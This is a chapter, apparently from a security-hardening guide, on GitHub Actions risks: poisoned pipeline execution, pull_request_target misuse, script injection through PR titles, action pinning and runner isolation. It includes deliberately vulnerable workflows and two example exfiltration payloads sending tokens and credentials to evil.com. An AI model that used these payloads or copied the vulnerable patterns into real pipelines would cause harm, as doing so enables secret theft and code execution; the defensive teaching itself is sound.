

# 02. GitHub Actions & Runner Security Hardening

GitHub Actions is the predominant CI/CD platform for open-source repositories and cloud-native organizations. However, misconfigured triggers, untrusted context variables, unpinned third-party actions, and poorly isolated runners expose workflows to severe exploitation.

This chapter covers the technical mechanics of GitHub Actions vulnerabilities and production-grade hardening controls.

---

## 1. Poisoned Pipeline Execution (PPE) Mechanics

Poisoned Pipeline Execution (PPE) occurs when an attacker manipulates pipeline build instructions by committing malicious code or workflow definitions in a source branch or Pull Request.



### The 3 PPE Variations

1. **Direct PPE**: The attacker directly modifies `.github/workflows/*.yml` inside a PR branch. If the workflow triggers on a privileged event, the runner executes the attacker's updated workflow steps.
2. **Indirect PPE**: The attacker modifies external build scripts or configuration files executed by the workflow (e.g., `Makefile`, `package.json`, `build.sh`, `tox.ini`, `pom.xml`).
3. **Public PPE**: An attacker submits a public PR to an open-source repository where workflows trigger automatically under privileged runner contexts.

---

## 2. Deep-Dive: The `pull_request_target` Trap

To allow forks to run workflows while protecting repo secrets, GitHub introduced two distinct triggers:

| Trigger Event | Execution Context | Access to Repo Secrets? | Default GITHUB_TOKEN Permission |
| :--- | :--- | :--- | :--- |
| `pull_request` | **Fork Repository Context** | ❌ **No** | Read-Only |
| `pull_request_target` | **Base Repository Context** | ✅ **Yes** | Read-Write |
| `workflow_run` | **Base Repository Context** | ✅ **Yes** | Read-Write |

### ❌ Vulnerable Workflow Pattern

Developers often switch to `pull_request_target` when a PR needs to label a PR or run integration tests requiring credentials. However, checking out the fork's PR code under `pull_request_target` leads to instant compromise!

```yaml
# .github/workflows/vulnerable_labeler.yml
name: PR Build & Test
on:
  pull_request_target: # DANGER: Runs in base repo context with SECRETS!

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - name: Checkout Code
        uses: actions/checkout@v4
        with:
          # FATAL FLAW: Explicitly checking out untrusted code from PR branch!
          ref: ${{ github.event.pull_request.head.sha }}

      - name: Run Install & Test
        run: |
          npm install  # Attacker's package.json 'postinstall' script executes arbitrary code!
          npm test
```

#### Exploit Mechanism:
An attacker submits a PR containing a malicious `package.json`:
```json
{
  "name": "malicious-pr",
  "scripts": {
    "postinstall": "curl -X POST -d @/home/runner/work/_temp/.netrc https://evil.com/exfil?token=$GITHUB_TOKEN"
  }
}
```
Because the workflow runs under `pull_request_target`, `npm install` executes the attacker's `postinstall` hook with full access to repository secrets and write permissions to the repository!

---

### ✅ Secure Two-Stage Workflow Pattern (`workflow_run`)

If a PR build requires privileged secrets (e.g., SonarQube token or internal deployment test environment), separate the **untrusted build** from the **privileged processing step** using `workflow_run` and artifact passing:

#### Stage 1: Untrusted Build (`.github/workflows/untrusted_build.yml`)
```yaml
name: Untrusted PR Build
on:
  pull_request: # Safe: No access to secrets, read-only token

jobs:
  build-and-test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: Run Unit Tests
        run: npm test
      - name: Save Coverage Artifact
        run: |
          mkdir -p ./coverage-artifact
          echo "${{ github.event.pull_request.number }}" > ./coverage-artifact/pr_num.txt
          cp coverage.json ./coverage-artifact/
      - uses: actions/upload-artifact@v4
        with:
          name: coverage-data
          path: ./coverage-artifact/
```

#### Stage 2: Privileged Processing (`.github/workflows/privileged_upload.yml`)
```yaml
name: Privileged Coverage Upload
on:
  workflow_run:
    workflows: ["Untrusted PR Build"]
    types: [completed]

jobs:
  upload-coverage:
    runs-on: ubuntu-latest
    if: ${{ github.event.workflow_run.conclusion == 'success' }}
    steps:
      - name: Download Artifact from Build Workflow
        uses: actions/download-artifact@v4
        with:
          name: coverage-data
          run-id: ${{ github.event.workflow_run.id }}
      - name: Upload to Coverage Service using Secrets
        env:
          COVERAGE_SECRET: ${{ secrets.COVERAGE_API_KEY }}
        run: |
          # Process raw coverage data WITHOUT executing untrusted scripts!
          curl -X POST -H "Authorization: Bearer $COVERAGE_SECRET" -d @coverage.json https://coverage.internal/api
```

---

## 3. Script Injection via GitHub Context Variables

GitHub Actions replaces context variables like `${{ github.event.pull_request.title }}` inline before passing the string to the shell (`bash`/`sh`). An attacker can supply command delimiters (`;`, `&&`, `|`, `` ` ``) inside PR titles, branch names, or issue comments to execute arbitrary shell commands.

### ❌ Vulnerable Inline Script Expansion

```yaml
# VULNERABLE: Direct string substitution inside run step!
name: PR Greeting
on:
  pull_request:

jobs:
  greet:
    runs-on: ubuntu-latest
    steps:
      - name: Print Title
        run: |
          echo "PR Title is: ${{ github.event.pull_request.title }}"
```

#### Exploit Payload:
An attacker names their PR title:
`Feature update"; env; curl https://evil.com/exfil?d=$(id) #`

When GitHub Actions processes the step, the shell evaluates:
```bash
echo "PR Title is: Feature update"; env; curl https://evil.com/exfil?d=$(id) #"
```

---

### ✅ Secure Pattern: Intermediate Environment Variables

Always map untrusted GitHub context parameters to explicit step-level `env` environment variables. The shell treats environment variables as data literals rather than executable commands.

```yaml
# SECURE: Pass context parameters via environment variables!
name: PR Greeting
on:
  pull_request:

jobs:
  greet:
    runs-on: ubuntu-latest
    steps:
      - name: Print Title
        env:
          PR_TITLE: ${{ github.event.pull_request.title }}
          HEAD_REF: ${{ github.head_ref }}
        run: |
          echo "PR Title is: $PR_TITLE"
          echo "Branch is: $HEAD_REF"
```

---

## 4. Third-Party Action Hardening & SHA Pinning

Referencing actions via mutable release tags (`uses: thirdparty/action@v1` or `@main`) invites supply chain compromise if the maintainer's account or repository is breached.

### ❌ Vulnerable Tag Reference
```yaml
# DANGER: Mutable tag can be rewritten to point to malicious commit anytime!
- uses: thirdparty/security-scanner@v2
```

### ✅ Secure Immutable SHA Pinning
Pin actions to their exact 40-character Git commit SHA and append the human-readable version as a comment:

```yaml
# SECURE: Immutable commit SHA pinning (v2.4.0)
- uses: thirdparty/security-scanner@a1b2c3d4e5f678901234567890abcdef12345678 # v2.4.0
```

> [!TIP]
> **Automated SHA Pinning:** Use tools like `pin-github-action` or StepSecurity's `secure-repo` CLI to automatically resolve all version tags in your repository to commit SHAs:
> ```bash
> npx pin-github-action .github/workflows/deploy.yml
> ```

---

## 5. Self-Hosted Runner Infrastructure Security

Self-hosted runners executing workflows for public repositories create high-severity risks if not properly isolated.

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                 SELF-HOSTED RUNNER SECURITY COMPARISON                      │
├────────────────────────────────┬────────────────────────────────────────────┤
│ Non-Ephemeral (Persistent Host)│ ❌ Attacker leaves behind cron jobs, root  │
│                                │    backdoors, or modifies global npm cache. │
├────────────────────────────────┼────────────────────────────────────────────┤
│ Ephemeral Pod (K8s / ARC)      │ ✅ Fresh container spawned per job;        │
│                                │    destroyed immediately upon completion.  │
└────────────────────────────────┴────────────────────────────────────────────┘
```

### Key Hardening Rules for Self-Hosted Runners:

1. **Never use self-hosted runners on public repositories** unless "Require approval for all outside collaborators" is strictly enforced.
2. **Use Ephemeral Runners**: Utilize GitHub's **Actions Runner Controller (ARC)** on Kubernetes so every job executes inside a clean, single-use container pod.
3. **Restrict Network Egress**: Deploy network policies or runtime agents (e.g. StepSecurity `Harden-Runner`) to block unauthorized outbound DNS/IP connections from build runners.

```yaml
# Restrict Runner Egress with StepSecurity Harden-Runner
steps:
  - name: Harden Runner Egress Network
    uses: step-security/harden-runner@63c24ba6bd78d086505357321ee72a473855a762 # v2.7.0
    with:
      egress-policy: block
      allowed-endpoints: |
        github.com:443
        api.github.com:443
        objects.githubusercontent.com:443
        registry.npmjs.org:443
```

---

*Next Chapter: [03. Secrets Management & Dependency Supply Chain →](03-secrets-and-dependency-confusion.md)*
